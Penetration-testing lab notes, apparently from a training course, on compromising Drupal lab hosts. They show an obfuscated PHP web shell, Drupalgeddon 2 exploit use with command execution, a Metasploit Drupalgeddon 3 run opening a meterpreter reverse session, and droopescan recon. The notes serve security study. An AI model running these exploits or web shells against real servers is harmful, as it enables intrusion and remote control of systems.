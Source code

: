 echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php

python3 drupalgeddon2.py
Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/
Check: http://drupal-dev.inlanefreight.local/mrb3n.php


curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Drupalgeddon 3

Remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x

https://cvedetails.com/cve/CVE-2018-7602/

It requires a user to have the ability to delete a node.

1) Log On and obtain a valid session Cookie
2) msf6 exploit(multi/http/drupal_drupageddon)
set rhosts 10.129.42.195
set VHOST drupal-acc.inlanefreight.local 
set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
set DRUPAL_NODE 1
set LHOST 10.10.14.15
show options 
exploit

meterpreter > getuid
Server username: www-data (33)


meterpreter > sysinfo
Computer    : app01
OS          : Linux app01 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux

## LAB

### /etc/hosts

10.129.142.40

IP=10.129.142.40
printf "%s\t%s\n\n" "$IP" "drupal.inlanefreight.local drupal-qa.inlanefreight.local drupal-dev.inlanefreight.local" | sudo tee -a /etc/hosts

http://drupal.inlanefreight.local/

### Recon

sudo pip3 install droopescan
droopescan scan drupal -u drupal.inlanefreight.local

[+] Possible version(s):
    8.9.0
    8.9.1
